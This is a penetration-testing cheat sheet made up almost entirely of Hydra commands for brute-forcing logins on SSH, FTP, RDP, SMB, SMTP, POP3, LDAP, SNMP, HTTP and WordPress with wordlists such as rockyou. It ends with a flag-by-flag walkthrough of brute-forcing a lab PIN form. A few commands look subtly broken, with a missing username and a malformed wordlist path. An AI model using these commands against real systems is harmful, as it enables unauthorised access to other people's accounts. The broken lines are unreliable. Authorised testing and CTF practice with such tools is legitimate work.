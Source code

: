 Command         Description
hydra -P password-file.txt -v $ip snmp  Hydra brute force against SNMP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp     Hydra FTP known user and rockyou password list
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh    Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh       Hydra SSH using a known password and a username list
hydra $ip -s 22 ssh -l -P big_wordlist.txt      Hydra SSH Against Known username on port 22
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V        Hydra POP3 Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V       Hydra SMTP Brute Force
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin       Hydra attack http get 401 login with a dictionary
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip         Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb   Hydra brute force SMB user with rockyou:
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'         Hydra brute force a Wordpress admin login
hydra -L usernames.txt -P passwords.txt $ip smb -V -f   SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f     LDAP Brute Forcing


---------------------------------------------------------------------------------

hydra -l '' -P 3digits.txt -f -v 10.10.50.172 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000

The command above will try one password after another in the 3digits.txt file. It specifies the following:

    -l '' indicates that the login name is blank as the security lock only requires a password
    -P 3digits.txt specifies the password file to use
    -f stops Hydra after finding a working password
    -v provides verbose output and is helpful for catching errors
    10.10.50.172 is the IP address of the target
    http-post-form specifies the HTTP method to use
    "/login.php:pin=^PASS^:Access denied" has three parts separated by :
        /login.php is the page where the PIN code is submitted
        pin=^PASS^ will replace ^PASS^ with values from the password list
        Access denied indicates that invalid passwords will lead to a page that contains the text “Access denied”
    -s 8000 indicates the port number on the target
